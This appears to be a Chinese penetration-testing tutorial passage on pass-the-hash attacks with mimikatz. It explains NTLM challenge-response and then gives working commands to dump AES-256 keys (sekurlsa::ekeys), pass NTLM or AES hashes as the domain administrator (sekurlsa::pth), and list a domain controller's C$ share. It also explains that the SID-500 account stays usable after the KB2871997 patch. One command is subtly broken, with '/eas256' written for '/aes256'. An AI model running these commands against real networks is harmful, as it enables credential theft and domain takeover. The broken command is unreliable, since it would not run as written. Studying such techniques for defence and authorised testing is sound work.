 ##### NTLM Hash进行哈希传递

NTLM Hash 验证过程：

```
1.用户输入username、password、domainname（交互式才需要这个步骤），客户端会计算hash值保存在本地；
2.客户端将username明文发给DC；
3.DC生成一个16Byte的随机数（challenge）发送给客户端；
4.客户端通过运算生成一个响应值response=f(hashes,challenge,other)=>other根据版本变化，例如时间戳来防止回访等；
5.客户端将响应值发送给DC；
6.DC经过同样的运算result = f(hashes,challenge,other)，然后比较result和response，一直就验证通过，不一致则验证不通过；
7.备注：目标不一定是DC，hash对应的账号所登录的（有缓存的）工作站也可以。
```

利用 --> 在攻击机器中，以管理员权限运行 mimikatz：(win7)

```
privilege::debug
sekurlsa::pth /user:administrator /domain:hacke.com /ntlm:获得的目标机的NTLMhash值
```

[![5YWjc8.png](https://z3.ax1x.com/2021/10/17/5YWjc8.png)](https://imgtu.com/i/5YWjc8)

此时，会弹出cmd.exe。在命令行环境中尝试列出域控制器C盘的内容： (获得的就是我们获得目标的cmd  (这里是DC))

```
dir \\dc\c$
```

[![5teddf.png](https://z3.ax1x.com/2021/10/17/5teddf.png)](https://imgtu.com/i/5teddf)

##### AES-256 密钥进行哈希传递

远程系统(必须安装 KB2871997)

使用 mimikatz 抓取 AES-256 密钥： (目标机)

```
privilege::debug
sekurlsa::ekeys
```

在远程目标主机(攻击机)中，以管理员权限运行 mimikatz:

```
privilege::debug
sekurlsa::pth /user:administrator /domain:hacke.com /eas256:得到的AES-256密钥
```

**注意：**攻击目标主机上必须安装 KB2871997。

当机器打了`KB2871997`补丁之后，我们发现使用域管理员组内无法进行hash传递攻击，但是administrator账号（sid为500）例外；不管administrator账号怎么修改，或者新增的管理员账号，**sid为500，即可进行hash传递攻击**

### 票据传递攻击分析与防范

想要使用 mimikatz 的哈希传递功能，必须具有本地管理员权限。当然，mimikatz 同样提供了不需要本地管理员权限就行横向渗透测试的方法，如 票据传递。







[https://www.freebuf.com/articles/system/229200.html](https://www.freebuf.com/articles/system/229200.html)